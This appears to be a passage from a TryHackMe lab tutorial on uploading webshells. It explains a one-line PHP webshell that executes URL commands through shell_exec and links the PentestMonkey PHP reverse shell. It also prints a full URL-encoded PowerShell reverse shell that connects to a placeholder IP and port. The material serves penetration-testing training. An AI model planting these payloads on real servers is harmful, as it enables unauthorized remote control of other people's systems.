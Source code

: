 There are times when we encounter websites that allow us an opportunity to upload, in some way or another, an executable file. Ideally we would use this opportunity to upload code that would activate a reverse or bind shell, but sometimes this is not possible. In these cases we would instead upload a webshell. See the [Upload Vulnerabilities Room](https://tryhackme.com/room/uploadvulns) for a more extensive look at this concept.

* "Webshell" is a colloquial term for a script that runs inside a webserver (usually in a language such as PHP or ASP) which executes code on the server. Essentially, commands are entered into a webpage -- either through a HTML form, or directly as arguments in the URL -- which are then executed by the script, with the results returned and written to the page. This can be extremely useful if there are firewalls in place, or even just as a stepping stone into a fully fledged reverse or bind shell.

As PHP is still the most common server side scripting language, let's have a look at some simple code for this.

In a very basic one line format:

* `<?php echo "<pre>" . shell_exec($_GET["cmd"]) . "</pre>"; ?>`

This will take a GET parameter in the URL and execute it on the system with shell_exec(). Essentially, what this means is that any commands we enter in the URL after ?cmd= will be executed on the system -- be it Windows or Linux. The "pre" elements are to ensure that the results are formatted correctly on the page.

Let's see this in action:

![Generating webshell](https://i.imgur.com/W19gHwL.png)

Notice that when navigating the shell, we used a GET parameter "cmd" with the command `"ifconfig"`, which correctly returned the network information of the box. In other words, by entering the ifconfig command (used to check the network interfaces on a Linux target) into the URL of our shell, it was executed on the system, with the results returned to us. This would work for any other command we chose to use (e.g. `whoami`, `hostname`, `arch`, `etc`).

As mentioned previously, there are a variety of webshells available on Kali by default at `/usr/share/webshells` -- including the infamous [PentestMonkey php-reverse-shell](https://raw.githubusercontent.com/pentestmonkey/php-reverse-shell/master/php-reverse-shell.php) -- a full reverse shell written in PHP. Note that most generic, language specific (e.g. PHP) reverse shells are written for Unix based targets such as Linux webservers. They will not work on Windows by default.

When the target is Windows, it is often easiest to obtain RCE using a web shell, or by using msfvenom to generate a reverse/bind shell in the language of the server. With the former method, obtaining RCE is often done with a URL Encoded Powershell Reverse Shell. This would be copied into the URL as the cmd argument:

```powershell
powershell%20-c%20%22%24client%20%3D%20New-Object%20System.Net.Sockets.TCPClient%28%27<IP>%27%2C<PORT>%29%3B%24stream%20%3D%20%24client.GetStream%28%29%3B%5Bbyte%5B%5D%5D%24bytes%20%3D%200..65535%7C%25%7B0%7D%3Bwhile%28%28%24i%20%3D%20%24stream.Read%28%24bytes%2C%200%2C%20%24bytes.Length%29%29%20-ne%200%29%7B%3B%24data%20%3D%20%28New-Object%20-TypeName%20System.Text.ASCIIEncoding%29.GetString%28%24bytes%2C0%2C%20%24i%29%3B%24sendback%20%3D%20%28iex%20%24data%202%3E%261%20%7C%20Out-String%20%29%3B%24sendback2%20%3D%20%24sendback%20%2B%20%27PS%20%27%20%2B%20%28pwd%29.Path%20%2B%20%27%3E%20%27%3B%24sendbyte%20%3D%20%28%5Btext.encoding%5D%3A%3AASCII%29.GetBytes%28%24sendback2%29%3B%24stream.Write%28%24sendbyte%2C0%2C%24sendbyte.Length%29%3B%24stream.Flush%28%29%7D%3B%24client.Close%28%29%22
```
